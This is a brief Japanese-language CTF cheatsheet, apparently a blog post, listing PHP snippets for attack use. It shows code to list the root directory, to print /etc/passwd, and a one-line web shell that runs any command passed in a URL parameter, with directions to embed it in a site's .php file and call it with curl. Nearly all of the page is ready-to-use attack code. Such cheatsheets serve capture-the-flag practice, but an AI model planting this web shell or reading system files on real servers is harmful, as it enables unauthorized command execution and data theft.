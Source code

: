 ```yaml
---
layout: post
published : true
title: "PHP"
permalink: /ctf/cheatsheets/common/php
tags: [CTF, Common, cheatsheet, PHP]
---
```

## 基本
phpを対話シェルで起動
```sh
$ php -a
```

## よく使うコード
### ディレクトリをリスト
```php
<?php print_r(scandir("/")); ?>
```
### ファイルを表示
```php
<?php print_r(readfile("/etc/passwd")); ?>
```
### Webshell
以下をウェブサイト内の.phpに埋め込む。
```php
<?php system($_GET['cmd']) ?>
```
以下のようにして使う。
```sh
$ curl -s http://example.com/webshell.php?cmd=id
```